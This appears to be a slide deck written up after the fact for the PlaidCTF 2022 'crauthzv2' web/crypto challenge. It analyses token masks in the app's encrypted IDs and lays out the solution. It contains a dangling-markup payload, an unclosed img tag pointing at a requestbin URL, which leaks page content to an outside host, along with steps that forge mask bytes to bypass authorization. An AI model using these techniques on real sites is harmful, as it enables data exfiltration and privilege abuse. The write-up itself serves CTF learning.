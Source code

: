 ```yaml
---
marp: true
paginate: true
header: 'crauthzv2 PlaidCTF 2022'
footer: 'Dosenpfand'
---
```


# crauthzv2 PlaidCTF 2022

---

## Disclaimer
- Not solved during the CTF
- Challenge author published intended solution and parts of the source code

---

## Task Description
- Categories: web, crypto
- Link to web app (job board), no source code
- From the task description
    > [...] What if we used cryptography to do our permissions checks instead?
    > Hint: What control do you have over the values pointed to by the mask?
- From a job posting on the web app
    > [...] Share your resume on THE GAUNTLET with "jobs" for consideration. We'll scrape any images in your resume; [...]

---

### Analysis - CRID I
- Typical link:
    ```
    http://crauthz.chal.pwni.ng/view?id=crid%3ABZLBNnxQ92%2BcAS1SHrCQ5a86EJTMHkTRUIroXYWk080r
    ```
- Constantly changing
- Format: `url_encode("crid:" + base64_encode(data))`
- `data` always starts with `5` or `7`

---

### Analysis - CRID II
- Error when modifying CRID
- starting with 5:
    > Error: Invalid ID (with parsed mask ['user_id', 'purpose']) for user id "1158", csrf "f447f3c65b49aa05957aca523c1e1828", purpose "view"

- 7: `['user_id', 'csrf', 'purpose'])`
- 3: `['user_id', 'csrf']`
- 6: `['csrf', 'purpose']`

---

### Analysis - CRID III
- 1st byte of `crid` is `mask`
- Changing the mask and adapting the `csrf` cookie accordringly validates
- E.g. Change from `5` to `3` and set `csrf` cookie to user id.

---

### Analysis - Image Sharing
- Sharing an unclosed HTML `img` tag
    ```
    <img src="http://requestbin.net/r/5vn3gc7l?q=
    ```
- We get some HTML succeeding the tag
    ```
    <b>Internal listing - security engineer</b>
    (Job) by jobs
    <a href=/p/unpin_listing?listing_id=crid:Bc6Rl57Y3nU9CbKqnfoCruNP074GbEkkb0RapF1tmQ==
    &ret=crid:BwK08K/aJC4FC+b5LbL9eAi/47baWgNCkVU7uijNPSj0
    >Unpin</
    ```

---

### Solution I
1. Share resume with user `jobs` with unclosed image tag
2. Get an `unpin` URL for internal job listing
3. Modify its `crid`'s 1st byte from `5 = ['user_id', 'purpose']` to `6 = ['csrf', 'purpose']`
4. Use it to pin the listing: Request `/pin_listing?listing_id=crid%3A_MODIFIED_CRID_1` with cookie `csrf=pin_listing`

---

### Solution II
5. Pinned listing not viewable due to permission checks, but we have a `unpin` `crid` now
6. Change it from `5 = ['user_id', 'purpose']` to ` 3 = ['user_id', 'csrf']`
7.  Use it to share the listing with our user: Request `/share_listing?id=crid%3A_MODIFIED_CRID_2&other=our_user` with cookie `csrf=pin_listing`
8. View the internal listing, flag is in the comments

---

### References
- Intended solution: https://gist.github.com/mserrano/44031a01afb53f98536af17f6ba9eedd
- Writeup: https://github.com/Dosenpfand/ctf-writeups/blob/master/writeup_2022_PlaidCTF_crauthzv2.md

---

### Implementation

---

#### CRID

```
+--------------+
| "crid:"      |
+--------------+---\
| context_mask |   |
+--------------+   |
| nonce        |   |
+--------------+   + base64 encoded
| encrypt(id)  |   |
+--------------+   |
| tag          |   |
+--------------+---/
```

---

#### Mask

```
+---------+---------+------+---------+
| 7 ... 3 | 2       | 1    | 0       |
+---------+---------+------+---------+
| X       | PURPOSE | CSRF | USER_ID |
+---------+---------+------+---------+
```

---

#### Associated Data

```
+---------+
| "id"    |
+---------+---\
| user_id |   |
+---------+   |
| csrf    |   + depending on context mask
+---------+   |
| route   |   |
+---------+---/
```
